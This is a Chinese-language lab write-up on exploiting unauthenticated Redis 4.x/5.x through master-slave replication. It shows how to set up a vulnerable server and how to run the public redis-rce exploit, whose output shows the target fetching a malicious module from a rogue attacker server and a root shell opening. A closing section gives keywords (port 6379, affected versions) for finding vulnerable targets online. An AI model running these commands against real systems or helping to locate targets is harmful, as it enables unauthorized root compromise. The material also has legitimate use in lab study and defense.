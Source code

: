 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

靶机kali，ip地址192.168.1.16，安装redis服务命令。  

wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
tar xzf redis-5.0.0.tar.gz  
cd redis-5.0.0  
make  


编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


./redis-server /root/redis-5.0.0/redis.conf  

![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用



攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。



 git close https://github.com/Ridter/redis-rce  
 cd redis-rce  
 greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
 
 █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
 █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
 █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
 █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
   █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
 ▀                                       ▀                       

[*] Connecting to  192.168.1.16:6379...  
[*] Sending SLAVEOF command to server  
[+] Accepted connection from 192.168.1.16:6379  
[*] Setting filename  
[+] Accepted connection from 192.168.1.16:6379  
[*] Start listening on 192.168.1.107:21000  
[*] Tring to run payload  
[+] Accepted connection from 192.168.1.16:38875  
[*] Closing rogue server...  

[+] What do u want ? [i]nteractive shell or [r]everse shell: i  
[+] Interactive shell open , use "exit" to exit...  
$ whoami  
root  
$   

![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

参考链接 https://paper.seebug.org/975/  

![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)


